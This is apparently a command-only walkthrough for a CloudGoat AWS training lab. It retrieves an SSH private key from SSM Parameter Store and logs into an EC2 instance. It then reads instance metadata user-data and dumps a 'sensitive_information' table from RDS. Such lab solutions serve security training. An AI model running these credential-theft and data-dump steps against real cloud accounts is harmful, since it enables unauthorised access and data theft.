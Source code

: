 `aws ssm describe-parameters --profile solo`

`aws ssm get-parameter --name <private key name> --profile solo`

`echo -e "<private key>" > ec2_ssh_key`

`chmod 400 ec2_ssh_key`

`aws ssm get-parameter --name <public key name> --profile solo`

`echo -e "<public key>" > ec2_ssh_key.pub`

`aws ec2 describe-instances --profile solo`

`ssh -i ec2_ssh_key ubuntu@<instance ip>`

# BRANCH A:

`sudo apt update && sudo apt install awscli -y`

`aws lambda list-functions --region us-east-1`

`aws rds describe-db-instances --profile solo`

# BRANCH B:

`curl http://169.254.169.254/latest/user-data`

`psql -h <rds db host/ip> -U cgadmin -d cloudgoat`

`\d`

`select * from sensitive_information;`
